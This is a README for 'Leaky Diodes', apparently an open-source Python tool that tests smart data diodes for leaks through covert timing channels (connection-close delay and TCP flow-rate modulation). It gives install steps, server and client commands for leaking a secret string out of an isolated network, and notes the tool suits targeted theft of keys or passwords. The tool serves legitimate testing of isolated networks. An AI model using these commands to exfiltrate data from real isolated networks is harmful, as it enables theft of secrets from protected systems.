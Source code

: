 # Leaky Diodes

Leaky diode is a data exfiltration test tool for *smart* data diodes, that is 
data diodes with support for TCP pass-through with the help of some side channel
from the isolated side. The attacks used are **flow modulation** and/or 
**close delay**:

- **CLOSE DELAY** uses the delay between the request of one the secret's bits and
the time the server closes the connection to encode the bit value. (i.e.- 10 seconds
delay means a 0, 30 seconds delay a 1)

- **FLOW MODULATION** uses tcp flow control mechanism to encode secret's bits as
a transfer speed. For example if the the bit requested by the client is 1 the server
throttles the speed to 300KB/s, if it's 0 to 100KB/s. The advantage of this attack is
that using a single connection makes it harder to detect.


## Installation

Download the package or clone the repository, and then install with:

```bash
python3 setup.py install
```

or use pypi:

```bash
pip install leaky_diode --user
```

or

```bash
sudo pip install leaky_diode
```

the path to the scripts if not installed as root will be:

```bash
/home/[username]/.local/bin/leaky_client
/home/[username]/.local/bin/leaky_server
```


## Usage

On the isolated side launch the server:

```bash
leaky_server public_ip port 'secret string that needs leaking'
```

On the untrusted side launch the client and select one of the attacks,

```bash
leaky_client server_ip server_port --mode flow --partial
```

or

```bash
leaky_client server_ip server_port --mode close --partial
```

And just wait a few minutes to receive the first byte (it's the slowest), if you're not sure
if it's working add --verbose option so it prints messages on each received bit.
 

## Options

```bash
usage: leaky_client [-h] [--mode mode] [--low_delay delay] [--high_delay delay] [--low_rate rate] 
					[--high_rate rate] [--sample_time time] [--settle_time time] [--partial]
                    host port

Leaky Diode is a data exfiltration test tool for data diodes

positional arguments:
  host                  Remore host address
  port                  Remote host port

optional arguments:
  -h, --help            Show this help message and exit
  --mode mode, -m mode  Attack mode 'flow' or 'close' (default: flow)
  --low_delay delay     Close delay for low bits (default: 5s) (only Close Mode)
  --high_delay delay    Close delay for high bits (default: 10s) (only Close Mode)
  --low_rate rate       Tx rate for low bits (default: 64 KB/s) (only Flow Mode)
  --high_rate rate      Tx rate for high bits (default: 300 KB/s) (only Flow Mode)
  --sample_time time    Tx rate sampling interval (default: 3.0s) (only Flow Mode)
  --settle_time time    Settle time between sending a bit request and the start of 
                        sampling (default: 8.0s) (only Flow Mode)
  --partial             Show partial results each time another byte from the secret is received
  --verbose             Show debugging messages
```

```bash
usage: leaky_server [-h] host port secret_string

Leaky Diode is a data exfiltration test tool for data diodes

positional arguments:
  host           Remore host address
  port           Remote host port
  secret_string  Attack mode 'flow' or 'close' (default: a secret string)

optional arguments:
  -h, --help     Show this help message and exit
  -v, --verbose  Show debugging messages
```

## Performance

The attack throughput with the default parameters is around 1 B/min (yes, one byte per minute),
you can increase it by lowering the delay times in **close delay** mode, and the settle/sample
times in **flow modulation** (the default values are very conservative)

An actual exfiltration attempt using this attack could easily leak a few KB per day, too slow
for large breachs, but enough for targeted attacks for keys/passwords or selected users data.


## API

It is also possible to use leaky_diode as a package and include a server in your own app:


* class LeakyServer(host, port, secret, ticks=100, max_connections=10)

	* host: (str) Listen interface ip addres ('' for all)
	* port: (int) Listen port
	* secret: (bytes) Secret to leak (max length 65535)
	* ticks: (int) Ticks per second the worker process use to throttle the connections.
	* max_connections: (int) Max concurrent connection the server can handle.

	* **start()**: Initialize and launch server worker processes
    * **stop()**: Stop server and its workers

   
```python
from leaky_diode import LeakyServer

leaky_server = LeakyServer('192.168.0.10', 9000, b'some secret byte string')
leaky_server.start()

# Do something else
......

# Close server before exit
leaky_server.close()
``` 


## TODO

- Harden message parsing input validation (invalid lengths)
- Use concurrent connection to increase exfiltration speed.
- Tune flow modulation mode tx speeds .
- Tune close delay mode delays.
- Add CRC to the secret and secret length, or even better error correction. 
- Add resume capability so there is no need to get the secret in one go.
- Add some tests.


## References

- Data Diodes [Wikipedia](https://en.wikipedia.org/wiki/Unidirectional_network)
- Place holder so I remember to publish a post on the attacks
- And another on transport and streaming protocols for data diodes
